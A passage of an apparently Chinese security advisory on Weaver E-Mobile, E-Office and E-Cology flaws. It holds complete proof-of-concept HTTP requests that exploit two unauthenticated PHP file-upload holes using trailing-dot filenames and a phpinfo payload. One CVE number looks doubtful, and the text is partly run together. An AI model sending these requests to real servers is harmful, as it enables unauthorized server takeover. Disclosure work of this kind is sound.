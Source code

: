     POST/Emobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1 Host:your-ip  Cache-Control:max-age=0  Upgrade-Insecure-Requests:1  Origin:null  Content-Type:multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt  Accept-Encoding:gzip, deflateAccept-Language:en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7Connection:close------WebKitFormBoundarydRVCGWq4Cx3Sq6ttContent-Disposition:form-data; name="upload_quwan"; filename="1.php."Content-Type:image/jpeg<?phpphpinfo();?>------WebKitFormBoundarydRVCGWq4Cx3Sq6ttContent-Disposition:form-data; name="file"; filename=""Content-Type:application/octet-stream------WebKitFormBoundarydRVCGWq4Cx3Sq6tt--  
    

 **修复建议** ：

目前官方已修复以上漏洞，建议升级更新到安全版本。  

  

 **2.泛微 E-Office文件上传漏洞(CVE-2023-2648)**

泛微e-office
9.5版本源文件/inc/jquery/uploadify/uploadify.php存在问题，对参数Filedata的操作会导致不受限制的上传，未经身份验证的恶意攻击者通过上传恶意文件，从而获取目标服务器的控制权限。

 **漏洞编号** ：CVE-2023-2648

 **漏洞类型** ：任意文件上传  

 **影响版本** ：泛微e-office 9.5版本

 **POC** ：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /inc/jquery/uploadify/uploadify.php  HTTP/1.1Host:***Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Origin: nullContent-Type: multipart/form-data; boundary=-WebKitFormBoundarydRVCGWq4Cx3Sq6tt  Accept-Encoding: gzip, deflateAccept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7Connection: close  
    ------WebKitFormBoundarydRVCGWq4Cx3Sq6ttContent-Disposition: form-data; name="Fdiledata"; filename="uploadify.php."Content-Type: image/jpeg  
    <?php phpinfo();?>------WebKitFormBoundarydRVCGWq4Cx3Sq6tt

 **修复建议** ：  

目前官方已修复以上漏洞，建议升级更新到安全版本。  

  

 **3.泛微E-Cology SQL注入漏洞(CVE-2023-15672)**

泛微e-
cology未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限等。

 **漏洞编号** ：CVE-2023-15672

 **漏洞类型** ：SQL注入  

 **影响版本** ：Ecology 9.x 补丁版本 < 10.58.0；Ecology 8.x 补丁版本 < 10.58.0  

 **POC** ：  

  *   *   *   * 

    
    